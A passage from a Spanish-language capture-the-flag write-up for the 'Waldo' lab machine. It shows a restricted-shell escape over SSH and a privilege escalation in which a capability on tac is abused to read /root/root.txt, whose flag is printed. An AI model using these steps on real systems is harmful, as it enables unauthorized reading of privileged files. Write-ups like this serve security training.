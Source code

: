 ```bash
                 &@,*@@.,,,,,..,,,,&@@%/**/@@*,,,,,&(.,,,.@@,,@@               
                 /@%,&@/,,,,/@%,,,,,*&@@@@@#.,,,,,.@@@(,,(@@@@@(               
                  @@*,@@,,,#@@@&*..,,,,,,,,,,,,/@@@@,*(,,&@/#*                 
                  *@@@@@(,,@*,%@@@@@@@&&#%@@@@@@@/,,,,,,,@@                    
                       @@*,,,,,,,,,.*/(//*,..,,,,,,,,,,,&@,                    
                        @@,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,@@                     
                        &@&,,,,,,,,,,,,,,,,,,,,,,,,,,,,&@#                     
                         %@(,,,,,,,,,,,,,,,,,,,,,,,,,,,@@                      
                         ,@@,,,,,,,,@@@&&&%&@,,,,,..,,@@,                      
                          *@@,,,,,,,.,****,..,,,,,,,,&@@                       
                           (@(,,,.,,,,,,,,,,,,,,.,,,/@@                        
                           .@@,,,,,,,,,,,,,...,,,,,,@@                         
                            ,@@@,,,,,,,,,,,,,,,,.(@@@                          
                              %@@@@&(,,,,*(#&@@@@@@,     
                              
                            Here's Waldo, where's root?
Last login: Tue Dec  5 06:02:39 2023 from 127.0.0.1
-rbash: alias: command not found
monitor@waldo:~$ 
```

- Bueno para salir simplemente hacemos lo siguiente.


```bash
waldo:~/.ssh$ ssh -i .monitor monitor@localhost bash
whoami
monitor
script /dev/null -c bash
Script started, file is /dev/null
monitor@waldo:~$ 
```

## Escalada de privilegios

- Ahora nuevamente exportamos nuestro PATH.

```bash
monitor@waldo:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/miguelrega7/.fzf/bin
<r/local/games:/usr/games:/home/miguelrega7/.fzf/bin
monitor@waldo:~$ export TERM=xterm
export TERM=xterm
monitor@waldo:~$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/miguelrega7/.fzf/bin
monitor@waldo:~$ 
```

- Si enumeramos por `capabilities` encontramos la siguiente tac <https://gtfobins.github.io/gtfobins/tac/>.

```bash
monitor@waldo:/home/nobody$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/bin/ping = cap_net_raw+ep
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

- Bueno con eso podemos leer cualquier archivo privilegiado del sistema.

```bash
monitor@waldo:/home/nobody$ tac /root/root.txt
7f680a52657f6c1ee72752e7ab096955
```
